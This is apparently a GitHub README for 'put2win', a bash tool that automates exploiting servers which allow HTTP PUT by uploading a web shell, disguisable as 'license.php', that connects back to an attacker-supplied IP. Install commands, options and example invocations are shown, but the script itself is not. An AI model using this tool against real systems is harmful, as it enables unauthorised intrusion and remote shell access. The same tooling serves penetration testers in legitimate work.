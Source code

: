 # put2win
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

Script to automate PUT HTTP method exploitation to get shell.

[![asciicast](https://asciinema.org/a/204195.png)](https://asciinema.org/a/204195)


# Installation
```
git clone https://github.com/sysdevploit/put2win
cd put2win
chmod +x put2win.sh
```

# Usage
```
Script to automate PUT HTTP method exploitation to get shell.

Options:
  -t TARGET        Target URL/IP (e.g. 192.168.1.10)
  -p PORT          Target PORT (e.g. 8080)
  -u URL PATH      Path to save the shell (e.g. /uploads)
  -l LOCAL IP      IP where the shell will connect (e.g. 192.168.1.5)
  -s SHELL NAME    Shell name (e.g. license.php)

Examples of use:
 - bash put2win.sh -t 192.168.1.80 -l 192.168.1.10 -s readme.php
 - bash put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10
 ```
 
# Contact
Telegram: @devploit

Twitter: https://www.twitter.com/devploit
